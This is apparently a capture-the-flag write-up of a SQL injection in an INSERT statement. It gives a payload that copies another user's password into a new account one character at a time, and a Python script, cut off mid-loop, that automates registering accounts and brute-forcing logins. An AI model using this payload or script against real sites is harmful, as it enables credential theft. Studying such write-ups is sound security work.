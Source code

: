 The strategy to get the password - 
* [SELECT](http://) statement can be used with [INSERT](http://) statement 
* So we can select the fisrt character of ginkoids's password
* Use that single char as password for new account.
* As the ginkoid's password lies in allowed characters, 
we can bruteforce the character by logging into the new account.
* Once logged in, the character is noted as first char of ginkoid's password
* We repeat the same process 32 times to get each char of password at one time

The basic injection to get first character of ginkoid's password and 
stores as new account's password - 
```javascript
INSERT INTO users (username, password) values ('new1', ''||(substr((select password from users),1,1)))--');
```
Consider the above payload - 
* [SELECT](http://) password [FROM] users would give the first user's password.
   This is used to reduce the payload size.
* Here, [substr](http://) is used to select a single char of password.
* [`||`](http://) operator is used to concatenate the character with an empty string
* [`--`](http://) is used to comment out the rest of the statement to get valid syntax

To automate this, i have used the following python script - 

```python
import requests

url = "https://cool.mc.ax"
allowed_characters = set(
    'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789'
) 
name = "loo"


def exploit():
  password = ""
  for i in range(1, 33):

    payload = {
      "username": "{}{}".format(name, i),
      "password": "'||(substr((select password from users),{},1)))--".format(i)
    }

    if i in [10, 20, 30]:
      pos = int(str(i)[0])
      payload = {
        "username": "{}{}".format("foomids", pos),
        "password": "'||(substr((select password from users),{},1)))--".format(i)
      }

    res = requests.post(url+'/register', data=payload)
    # print("[+] Registered a user. Payload: ", payload)

    for c in allowed_characters:
      payload = {
        "username": "{}{}".format(name,i),
        "password": "{}".format(c)
      }

      if i in [10, 20, 30]:
        pos = int(str(i)[0])
        payload = {
          "username": "{}{}".format("foomids",pos),
          "password": "{}".format(c)
        }
```